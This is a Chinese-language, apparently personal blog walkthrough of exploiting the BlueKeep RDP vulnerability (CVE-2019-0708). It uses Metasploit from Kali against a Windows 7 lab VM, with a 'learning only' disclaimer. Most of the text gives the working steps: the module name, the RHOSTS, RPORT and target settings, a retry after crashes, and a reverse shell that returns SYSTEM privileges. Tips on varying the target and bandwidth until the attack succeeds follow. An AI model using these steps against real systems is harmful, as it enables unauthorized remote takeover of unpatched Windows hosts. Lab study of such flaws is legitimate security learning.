



禁止用于非法用途，仅限于学习使用！！！
Windows系列服务器于2019年5月15号，被爆出高危漏洞，该服务器漏洞利用方式是通过远程桌面端口3389，RDP协议进行攻击的，堪比WannaCry
影响版本
Windows 7 Windows Server 2008 R2 Windows Server 2008 Windows Server 2003 Windows XP
攻击机：kali
目标机：win7旗舰版（已开启远程桌面连接）
打开msf
msfconsole使用exploit/windows/rdp/cve_2019_0708_bluekeep_rce 模块
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
设置目标机ip（我这里是192.168.1.100）
set RHOSTS 192.168.1.100设置目标机远程登录端口（默认是3389，我的没有修改）
set RPORT 3389设置机器架构，可使用show targets 来 选择机器结构 
6.我这里是vmware15.1 win7所以机器target为5 set target 5 7.使用exploit进行攻击 （新发布的exp还不够稳定，所以第一次打蓝屏了，尴尬） 
8.win7重新开机，再次exploit，打重启了，妈卖批！！！
9.再来一次，更改target为2 ，终于成功反弹shell，执行whoami，显示nt authority\system，直接拿到目标机系统权限， success！！！

总结：
由于现在exp不是很稳定，很难在实战中利用，但是吧，有些地方在五月份左右的时候已经有稳定的exp了，不过比较贵，嗯。。，几万美元
提醒：
更改一下带宽，或者换一下target，多试几次总会成功的
写在最后：
我特么也不知道为啥我的虚拟机是vmware15.1，而target是2，反正成功了 ，而我已经十一点了还没有吃饭，饿死我了！啊啊啊啊啊啊！！！！